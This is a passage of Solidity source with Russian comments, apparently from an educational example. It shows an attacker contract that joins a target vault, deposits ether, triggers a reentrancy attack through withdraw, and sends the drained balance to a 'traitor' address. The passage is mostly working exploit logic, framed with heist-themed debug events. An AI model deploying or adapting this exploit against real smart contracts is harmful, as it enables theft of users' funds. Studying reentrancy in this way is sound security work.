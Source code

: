 ```solidity
        emit BankDebug(
            "The traitor infiltrates the bank",
            0,
            address(targetVault).balance
        );

        targetVault.joinGuild(); // Злоумышленник вступает в гильдию как легитимный член
    }

    // Злоумышленник инициирует ограбление
    function executeHeist() external payable {
        require(
            msg.sender == traitor,
            "Only the traitor can execute the heist!"
        );
        require(
            msg.value >= 1 ether,
            "The heist requires at least 1 ETH to proceed!"
        );

        // Лог в начале ограбления
        emit BankDebug(
            "Heist begins: depositing funds into the vault",
            msg.value,
            address(targetVault).balance
        );

        // Внесение эфира в сокровищницу
        targetVault.deposit{value: msg.value}();

        // Лог после пополнения счета
        emit BankDebug(
            "Funds deposited, preparing for reentrancy attack",
            msg.value,
            address(targetVault).balance
        );

        // Начало кражи через реентерацию
        heistInProgress = true;

        // Вывод суммы депозита, чтобы запустить реентерацию
        targetVault.withdraw(msg.value);

        // Обеспечение правильного завершения ограбления
        heistInProgress = false;
    }

    // Злоумышленник собирает добычу после ограбления
    function claimLoot() external {
        require(
            msg.sender == traitor,
            "Only the traitor can claim the stolen loot!"
        );

        emit BankDebug(
            "The traitor claims the stolen funds",
            address(this).balance,
            address(targetVault).balance
        );

        payable(traitor).transfer(address(this).balance);
    }

```